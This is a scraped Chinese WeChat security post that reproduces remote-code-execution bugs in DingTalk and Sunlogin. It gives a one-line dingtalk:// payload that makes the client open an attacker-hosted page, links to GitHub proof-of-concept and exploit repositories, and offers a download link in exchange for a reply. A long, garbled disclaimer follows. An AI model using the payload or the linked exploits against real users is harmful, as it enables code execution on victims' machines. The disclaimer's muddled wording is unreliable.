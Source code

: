 #  钉钉&向日葵RCE复现，附复现环境以及poc和exp

卖报的小行家呀  [ 阿乐你好 ](javascript:void\(0\);)

**阿乐你好** ![]()

微信号 gh_cdf3717dded0

功能介绍 安全相关信息推送

____

__

收录于话题

钉钉RCE

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104949.png)

随便打开一个会话窗口，发送payload，然后点击payload

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104951.png)

弹窗

视频演示

payload：

  

  * 

    
    
    dingtalk://dingtalkclient/page/link?url=127.0.0.1/test.html&pc_slide=true

github地址

https://github.com/crazy0x70/dingtalk-RCE

向日葵RCE复现

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104954.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104957.png)

  

github地址

https://github.com/TRYblog/sunlogin_rce_

附件截图

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217104959.png)

后台回复20220217获取下载链接

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220217105001.png)

  

  

  

# 本文最终解释权归本文所有作者！！！

    任何公众号场、本项目涉及的任何工具，仅用于商业商业用途，不能保证其合法性和使用性，并能用于研究项目中的应用，目标和有效的实施情况自己判断；

     文章、项目内场所有资源文件，杜绝任何靶本公众号、自媒体进行形式的擅自转载、发布

    公众对脚本及任何概不负责包括不由任何脚本错误导致的工具损失或损害及任何法律责任；

直接使用本或公众发布的技术、靶场、文章项目中涉及的脚本工具，但在某些行为不符合任何国家/地区或相关地区的情况下进行传播时，
PTEHUB引发的隐私或其他任何法律问题的后果概不负责；

    如果任何单位或个人认为项目或文章的内容可能侵犯其权利，则应及时通知并证明其身份，证明我们将在收到证明文件后删除相关内容；

    以方式或使用此项目的任何人或直接使用项目的直接用户都应仔细阅读此声明；

    本公众号保留更改或补充，免责随时声明的权利；

    访问本公众号的任何文章或项目，请您立即接受此免责声明。

您在本声明未发出之时，或者使用访问已接受此声明，请查看本公众号。

                                                                                              此致

    由于、利用的信息而造成的任何或直接的此文传播后果，均由用户本人负责，作者不承担任何直接责任。 ****  

一切法律后果均由攻击者承担！！！

日站不规范，亲人两行泪！！！

日站不规范，亲人两行泪！！！

日站不规范，亲人两行泪！！！

  * 专注于信息安全方面分享，传播商业性广告，不

  * 关注不迷，点赞！关注！转向！评论！！

  * 要投稿的留言通知，会第一时间回复，谢谢！

  

  

  

  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

钉钉&向日葵RCE复现，附复现环境以及poc和exp

最多200字，当前共字

__

发送中

[写留言](javascript:;)

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

